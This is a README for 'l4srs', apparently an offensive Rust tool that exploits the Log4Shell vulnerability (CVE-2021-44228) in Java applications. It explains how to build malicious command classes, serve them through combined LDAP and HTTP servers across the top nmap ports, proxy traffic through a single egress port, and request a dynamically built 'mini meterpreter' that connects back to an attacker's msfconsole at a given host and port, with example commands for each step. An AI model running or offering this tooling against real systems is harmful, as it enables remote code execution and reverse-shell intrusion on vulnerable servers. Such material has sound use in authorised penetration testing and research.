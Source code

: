 # l4srs
Rust implementation of the Log 4 Shell (log 4 j - CVE-2021-44228)

This version will let you build command classes, dynamically serve
a mini meterpreter that runs in a thread of the exploited Java app,
and runs the LDAP and HTTP servers.  This version servers both the
LDAP and HTTP requests from the same port.

You can run on multiple ports simultaneously to attempt to see 
what ports may be available for egress on for the target machine.

If the request is not LDAP or HTTP it can then proxy the request
to another machine, again on the same port.  If the target machine
has only one egress port you can server LDAP, HTTP and use the same
port to proxy the meterpreter connection to another local port or
another machine.

**This version no longer requires javac to be installed.  It still
allows for dynamic "class building" but does so by altering 
precompiled classes embeded in the executable.**

This version adds the top 100 and top 1000 ports as defined by nmap.
use the --pC100 or the --pC1000 options.

Typical use case is to build command class(es) then run the server.
`l4srs build -c Cmd1 -l firefox -w Calc.exe`
`l4srs build -c TouchMe -l "touch /tmp/me"`

you can then request Cmd1 and this will launch firefox on linux 
and Calc on Windows.  It you request TouchMe it will touch 
/tmp/me on linux and on windows it will not execute anything.

you can then run `l4srs run --pC100` to start the server on the
top 100 ports and can serve Cmd1 or TouchMe.

Additionaly if you request MM:Host:port it will dynamically
create a mini meterpreter class that will reach out to the
host and port in the request.  If your msfconsole is running
on 10.20.30.40 on port 4444 you would request MM:10.20.30.40:4444
this is not built with the build command it is dymaically built
on the request.

